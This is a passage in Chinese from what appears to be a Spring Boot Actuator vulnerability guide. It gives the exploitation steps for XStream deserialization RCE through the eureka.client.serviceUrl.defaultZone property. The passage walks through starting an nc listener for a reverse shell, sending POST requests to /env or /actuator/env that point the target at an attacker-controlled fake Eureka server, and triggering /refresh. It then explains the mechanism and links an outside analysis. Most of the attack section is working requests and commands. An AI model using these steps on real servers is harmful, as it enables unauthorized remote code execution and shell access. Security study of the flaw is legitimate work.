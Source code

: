 使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。

##### 步骤二：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```

##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

##### 步骤四：刷新配置

spring 1.x

```http
POST /refresh HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

```

#### 漏洞原理

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

#### 漏洞分析

​ [Spring Boot Actuator从未授权访问到getshell](https://www.freebuf.com/column/234719.html)

#### 漏洞环境
